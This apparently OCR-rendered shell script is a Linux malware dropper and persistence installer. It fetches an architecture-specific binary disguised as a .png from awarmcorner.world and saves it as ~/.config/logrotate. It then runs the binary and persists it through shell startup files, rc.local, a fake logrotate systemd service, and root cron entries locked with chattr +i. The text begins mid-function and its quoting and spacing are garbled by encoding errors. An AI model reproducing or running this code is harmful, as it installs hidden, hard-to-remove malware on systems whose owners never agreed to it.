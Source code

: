 ```
   URL=&#34;&#34;
   [ &#34;$ARCH&#34; = &#34;x86_64&#34; ] && URL=&#34;<https://awarmcorner.world/silicon64blueprints.png>&#34;
   [ &#34;$ARCH&#34; = &#34;aarch64&#34; ] && URL=&#34;<https://awarmcorner.world/siliconarmblueprints.png>&#34;
   [ &#34;$ARCH&#34; = &#34;armv7l&#34; ] && URL=&#34;<https://awarmcorner.world/siliconarmv7blueprints.png>&#34;
   [ -z &#34;$URL&#34; ] && URL=&#34;<https://awarmcorner.world/silicon64blueprints.png>&#34;
   { wget -q -O &#34;$HOME/.config/logrotate&#34;&#34;$URL&#34; || curl -sL -o &#34;$HOME/.config/logrotate&#34;&#34;$URL&#34;; } >/dev/null 2>&1
   chmod +x &#34;$HOME/.config/logrotate&#34; >/dev/null 2>&1
}
pgrep -f &#34;config/logrotate&#34; >/dev/null 2>&1 || &#34;$HOME/.config/logrotate&#34;
add_to_startup() {
   if [ -r &#34;$1&#34; ]; then
       if ! grep -Fxq &#34;$EXEC >/dev/null 2>&1&#34;&#34;$1&#34;; then
           echo&#34;$EXEC >/dev/null 2>&1&#34; >> &#34;$1&#34;
       fi
   fi
}
case&#34;$(ps -p $$ -o comm=)&#34;in
   bash) add_to_startup &#34;$HOME/.bashrc&#34;
         add_to_startup &#34;$HOME/.bash_logout&#34; ;;
   zsh) add_to_startup &#34;$HOME/.zshrc&#34; ;;
esac
[ &#34;$(id -u)&#34; -eq 0 ] && {
   RCLOCAL=''
   [ -e /etc/debian_version ] && RCLOCAL='/etc/rc.local'
   [ -e /etc/centos-release -o -e /etc/redhat-release ] && RCLOCAL='/etc/rc.d/rc.local'
   [ -n &#34;$RCLOCAL&#34; ] && add_to_startup &#34;$RCLOCAL&#34;
   cat >/etc/systemd/system/logrotate.service <<EOL
[Unit]
Description=The logrotate utility is designed to simplify the administration of log files on a system which generates a lot of log files
[Service]
ExecStart=$HOME/.config/logrotate
Restart=always
Nice=-20
StandardOutput=null
[Install]
WantedBy=multi-user.target
EOL
   sudo systemctl daemon-reload 2>/dev/null
   sudo systemctl enable logrotate.service 2>/dev/null
   [ -d /var/spool/cron ] && [ -f /var/spool/cron/root ] && echo&#34;@daily $EXEC&#34; >> /var/spool/cron/root 2>/dev/null
   [ -d /var/spool/cron/crontabs ] && [ -f /var/spool/cron/crontabs/root ] && echo&#34;@daily $EXEC&#34; >> /var/spool/cron/crontabs/root 2>/dev/null
   [ -f /etc/crontab ] && echo&#34;@daily $EXEC&#34; >> /etc/crontab 2>/dev/null && sudo chattr +i /etc/crontab 2>/dev/null
   [ -d /etc/cron.hourly ] && echo&#34;$EXEC&#34; >> /etc/cron.hourly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.hourly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.hourly/logrotate 2>/dev/null
   [ -d /etc/cron.daily ] && echo&#34;$EXEC&#34; >> /etc/cron.daily/logrotate 2>/dev/null && sudo chmod +x /etc/cron.daily/logrotate 2>/dev/null && sudo chattr +i /etc/cron.daily/logrotate 2>/dev/null
   [ -d /etc/cron.weekly ] && echo&#34;$EXEC&#34; >> /etc/cron.weekly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.weekly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.weekly/logrotate 2>/dev/null
   [ -d /etc/cron.monthly ] && echo&#34;$EXEC&#34; >> /etc/cron.monthly/logrotate 2>/dev/null && sudo chmod +x /etc/cron.monthly/logrotate 2>/dev/null && sudo chattr +i /etc/cron.monthly/logrotate 2>/dev/null
```